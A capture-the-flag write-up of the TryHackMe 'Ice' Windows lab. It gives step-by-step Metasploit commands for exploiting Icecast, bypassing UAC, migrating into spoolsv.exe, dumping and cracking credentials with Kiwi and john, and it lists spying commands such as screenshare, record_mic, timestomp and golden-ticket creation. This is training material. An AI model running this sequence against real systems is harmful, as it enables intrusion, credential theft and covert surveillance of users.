# Ice

## General Information

<h3>Difficulty:  </h3>

<h3> Operating system: Windows</h3> 

<h3> Exploited vulnerability: Media Server </h3>

<h3> Date of resolution: 20/06/2025 </h3>

<h3>Link VM: <a href="https://tryhackme.com/room/ice" target="_blank">Ice</a></h3>

### *Read the document in Spanish:* <a href="ice.md">Ice</a>

## Scanning for open ports

### TCP port scanning

The command I will use is:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```

<p align="center"> 

</p>

<p align="center"> 

</p>

<div align="center">

| Open port | Service      | Version                                                                        |
| --------- | ------------ | ------------------------------------------------------------------------------ |
| 135       | msrpc        | Microsoft Windows RPC                                                          |
| 445       | microsoft-ds | Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) |
| 139       | netbios-ssn  | Microsoft Windows netbios-ssn                                                  |
| 3389      | tcpwrapped   | -                                                                              |
| 49154     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |
| 49153     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |
| 49158     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |
| 49159     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |
| 49161     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |
| 8000      | http         | syn-ack ttl 127 Icecast streaming media server                                 |
| 5357      | http         | syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                        |
| 49152     | msrpc        | syn-ack ttl 127 Microsoft Windows RPC                                          |

</div>

There are versions of **Icecast** that have a vulnerability, so we will search for it with metasploit.

## Exploration

We open **metasploit**

We can search for the vulnerability in two ways by its name or by its cve

```
search icecast
```
o
```
search CVE-2004-1561
```

<p align="center"> 

</p>

```
use 0
show options
```

<p align="center"> 

</p>

We set **RHOSTS** and **LHOST**

```
set RHOSTS 10.10.91.31
set LHOST 10.8.139.36
show options
```

<p align="center"> 

</p>

```
run
```

<p align="center"> 

</p>

If you want system information use the following command

```
sysinfo
```

<p align="center"> 

</p>

Run this command to find out what privileges this user has:

```
getprivs
```

<p align="center"> 

</p>

<div align="center">

| Privilegio                    | ¿Qué hace?                                                                                        |
| ----------------------------- | ------------------------------------------------------------------------------------------------- |
| SeChangeNotifyPrivilege       | Allows you to receive notifications when the file system changes (very common and not very dangerous). |
| SeIncreaseWorkingSetPrivilege | Allows you to increase the working set of process memory                                   |
| SeShutdownPrivilege           | Allows you to shut down or restart the system.                                                            |
| SeTimeZonePrivilege           | Allows you to change the system time zone.                                                      |
| SeUndockPrivilege             | Allows the user to undock a laptop.                                                        |

</div>

When running the **getprivs** command it only tells us the permissions we have with the current user, which is the **DARK-PC** user.

We run the following command because it's a tool that makes your life easier by automatically detecting which local exploits you can use to gain more privileges. **Inside the Meterpreter session**

```
run post/multi/recon/local_exploit_suggester
```

<p align="center"> 

</p>

Once we've identified the exploit we're going to use, which is **exploit/windows/local/bypassuac_eventvwr**, we put our meterpreter session in the background:

```
control z o background
```

## Privilege escalation

We will use the following module:

```
use exploit/windows/local/bypassuac_eventvwr 
show options
```

<p align="center"> 

</p>

We use this module to exploit a flaw in the UAC control so that the payload is automatically re-executed with elevated permissions, but keeping the same user.

To know which session we put in the background, we write:

```
sessions -l
```

<p align="center"> 

</p>

```
set SESSION 1
set LHOST 10.8.139.36
show options
```

<p align="center"> 

</p>

```
run
```

<p align="center"> 

</p>

I use this command to find out what privilege my user has this time, and I realize that I have much more than I had in the previous session.

```
getprivs
```

<p align="center"> 

</p>

**SeTakeOwnershipPrivilege** = Te da derecho a “reclamar la propiedad” sobre cualquier objeto del sistema para luego poder darte los permisos que quieras.

Realizamos este comando para saber que proceso están abierto:

```
ps
```

<p align="center"> 

</p>

Then we migrate the **spoolsv.exe** process with the following command:

```
migrate -N spoolsv.exe
```

<p align="center"> 

</p>

Then using this command to verify what type of user we are now:

```
getuid
```

<p align="center"> 

</p>

## Exploitation

There are two ways to get the DARK user password

### Firt Form

We carry out these commands:

```
load kiwi
hasdump
```

<p align="center"> 

</p>

We copy exactly what is inside the red square and save it in a .txt file called **password.txt**

Then we execute the following command:

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt contraseña.txt 
```

<p align="center"> 

</p>

### Second Form

We use the following command because Kiwi is a password dumping tool.
**Mimikatz is the previous version of Kiwi**

```
load kiwi
```

<p align="center"> 

</p>

We execute the following command to know the user credentials:

```
creds_all
```

<p align="center"> 

</p>

## Mimikatz/Kiwi - extra 

If we use this command it allows us to see the remote user's desktop in real time

```
screenshare
```

<p align="center"> 

</p>

If we want to record from a microphone connected to the system, we will use this command:

```
record_mic 
```

The following command modifies the timestamps of files on the system. **It is recommended not to do so unless prompted**

```
timestomp 
```

The following command allows you to generate **Golden Ticket**

```
golden_ticket_create
```

------------------------------------

Finally I use this command, in order to enter the machine remotely:

```
rdesktop <ip-máquinaObjetivo>
```

<p align="center"> 

</p>

We enter the **username** and **password** that we have obtained

<p align="center"> 

</p>

**Machine finished!!**

## Conclusion

On this machine, I realized it had an **icecast** vulnerability, so I ended up exploiting it with Metasploit. By migrating a file with elevated permissions, I gained root status. Finally, I used the Mimikatz/Kiwi tool.

